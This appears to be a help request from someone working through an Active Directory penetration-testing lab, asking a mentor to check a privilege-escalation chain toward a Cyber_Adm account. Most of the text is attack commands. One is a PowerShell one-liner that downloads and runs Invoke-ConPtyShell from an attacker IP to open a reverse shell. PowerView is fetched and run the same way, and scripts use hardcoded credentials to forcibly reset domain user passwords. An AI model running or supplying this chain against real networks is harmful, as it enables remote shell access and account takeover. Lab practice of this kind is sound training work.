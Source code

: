 

hey mr. grosabi so I need help with getting onto Web-WIN01. Really just want you to proof read what i've been doing because now im giga stuck. So I found that pgibbons has first degree object control of salvador@corp.local

& salvador has access to the Security Engineers

and the Security Engineers group has AllExtendedRights so salvador should be able to change the credentials of Cyber_Adm. 

Pretty much my psexec aint working and ive spent all day trying to rerun/fix this shit. I just wanna know if the environment is just screwed up or what because this should work... And if theres a way to see if the credentials were actually applied? I couldnt find anything about it online.



```powershell
powershell "IEX(IWR http://10.10.14.39:8080/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.39 3001"
```

`iex (iwr 'http://10.10.14.39:8080/powerview.ps1' -useb)`



```powershell
PS C:\Windows\Tasks> 

$SecPassword = ConvertTo-SecureString 'I l0ve going Fishing!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('corp.local\pgibbons', $SecPassword)
$UserPassword = ConvertTo-SecureString 'gr0s4b1_w4s_h3r3!' -AsPlainText -Force;
Set-DomainUserPassword -Identity salvador -AccountPassword $UserPassword -Credential $Cred
$SecPassword = ConvertTo-SecureString 'I l0ve going Fishing!' -AsPlainText -Force;
$Cred = New-Object System.Management.Automation.PSCredential('corp.local\pgibbons', $SecPassword);
$UserPassword = ConvertTo-SecureString 'gr0s4b1_w4s_h3r3!' -AsPlainText -Force;
Set-DomainUserPassword -Identity salvador -AccountPassword $UserPassword -Credential $Cred
```
setting user as salvador
```powershell
$username = 'corp\salvador'
$password = 'gr0s4b1_w4s_h3r3!'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Set-DomainUserPassword -Identity cyber_adm -AccountPassword $securePassword -credential $credential
```